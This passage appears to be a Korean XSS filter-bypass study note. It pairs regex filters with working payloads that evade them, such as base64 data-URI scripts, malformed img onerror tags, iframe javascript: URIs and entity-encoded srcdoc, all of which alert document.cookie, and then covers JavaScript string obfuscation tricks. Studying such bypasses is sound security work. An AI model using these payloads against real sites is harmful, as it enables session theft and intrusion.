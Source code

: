     x => !/<script[^>]*>[^<]/i.test(x) && !x.includes('document')--> <sCrIpt src=data:;base64,YWxlcnQgKGRvY3VtZW50LmNvb2tpZSk7></SCRipt>// base64 인코딩을 통해 필터링 우회
    
    x => !/<img[^>]*onerror/i.test(x)--> <<img src=> onerror=alert(document.cookie)>--> <img src='>' onerror=alert(document.cookie)//\>
    
    x => !/<img([^>]|['"][^'"]*['"])+onerror/i.test(x)--> <img src=">'>" onerror=alert(document.cookie) />
        
    x => !/<img.*on/i.test(x)--> <img src=""     
                                      onerror = alert(document.cookie) />// 멀티라인에 대한 검증이 존재하지 않아 줄바꿈을 통해 필터링 우회.
    ```

    - 특정 태그 및 속성에 대한 필터링을 다른 태그 및 속성을 이용하여 필터 우회

    ```html
    x => !/img|onload/i.test(x)--> <video><source onerror=alert(document.cookie) /></video>
    x => !/onerror/i.test(x)--> <body onload=alert(document.cookie) />
    x => !/<\s*body/i.test(x)--> <iframe src=jaVaSCRipt:alert(parent.document.cookie) />
    x => !/onerror|javascript/i.test(x)--> <iframe srcdoc="<img src='' one&#114;&#114;or=alert(parent.document.cookie)>"
    
    ```

* **JavaScript 함수 및 키워드 필터링**

  * JavaScript:

    * **Unicode escape sequence**

      ->  문자열에서 유니코드 문자를 코드포인트로 나타낼 수 있는 표기)

      ex) (`"\uAC00"` = **"가")** 

    * **computed member access**

      -> 객체의 특정 속성을 접근할 때 속성 이름을 동적으로 계산함 등 코드를 난독화할 수 있는 다양한 기능들을 포함

  * **우회 방법**

    ##### 1. **문자열 선언**

    - **일반적인 방법**

      quotes(`"`, `'`) 또는 Template literals 사용

    ```js
    var foo = "Hello";
    var bar = "World";
    
    var baz = `${foo},
    World ${1+1} `; // "Hello,\nWorld 2 "
    /*
    Template literals은 backtick을 통해 선언하며 멀티라인 문자열도 선언할 수 있습니다.또한 내장된 표현식을 통해 다른 변수 또는 식을 사용할 수 있습니다.
    */
    ```

    - quotes 또는 Template literals을 사용하지 못하는 경우

    ```js
    var foo = /Hello World!/.source;// "Hello World!"
    var foo2 = /test !/ + []; // "/test !/"
    /*
    RegExp Object의 pattern 부분을 이용.
    /test/.constructor === RegExp
    */
    var bar = String.fromCharCode(72, 101, 108, 108, 111); // Hello
    /*
    String.fromCharCode함수는 유니코드의 범위 중 해당 수에 해당 하는 문자를 반환.*/
    var baz = history.toString()[8] + // "H"(history+[])[9] + // "i"
    (URL+0)[12] + // "("
    (URL+0)[13]; // ")" ==> "Hi()"
    /*기본 내장 함수 또는 오브젝트의 문자를 사용하는 방법.